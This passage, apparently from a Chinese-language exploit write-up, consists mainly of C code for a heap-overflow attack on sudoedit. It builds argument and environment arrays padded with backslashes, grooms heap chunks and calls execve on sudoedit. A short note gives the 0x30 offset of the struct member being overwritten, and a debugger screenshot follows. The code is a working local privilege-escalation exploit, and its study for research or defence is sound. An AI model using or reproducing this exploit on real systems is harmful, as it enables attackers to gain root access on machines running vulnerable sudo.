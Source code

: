 ```C++
    if(A>0 && B > 0)
        x=(A<B) ? A : B;
    y=size-1-x*2;
    int len=x+y+(x+y+y+1)*x/2;

    while ((signed int)(offset-len)<2)
    {
        x--;
        y=size-1-x*2;
        len=x+y+(x+y+1)*x/2;
        if(x<0)
            return -1;
    }
    int envoff=offset-len-2+0x30;
    printf("%d,%d,%d\n",x,y,len);
    char * Astring=malloc(size);
    int i=0;
    for(i=0;i<y;i++)
        Astring[i]='A';
    Astring[i]='\x00';

    argv[argvnow++]="sudoedit";
    argv[argvnow++]="-s";
    for (i=0;i<x;i++)
        argv[argvnow++]="\\";
    argv[argvnow++]=Astring;
    argv[argvnow++]="\\";
    argv[argvnow++]=NULL;
    for(i=0;i<envoff;i++)
        envp[envnow++]="\\";
    envp[envnow++]="X/test";
    return 0;
}

int main()
{
    setargv(0xa0,0x650);
    addChunk(0x40);
    addChunk(0x40);
    addChunk(0xa0);
    addChunk(0x40);
    final();

    execve("/usr/local/bin/sudoedit",argv,envp);
}
```

1. 要覆盖的name成员在0x30的偏移位置

![pwndbg 调试](https://laoba-1304292449.cos.ap-chengdu.myqcloud.com/img/20221011160159.png)
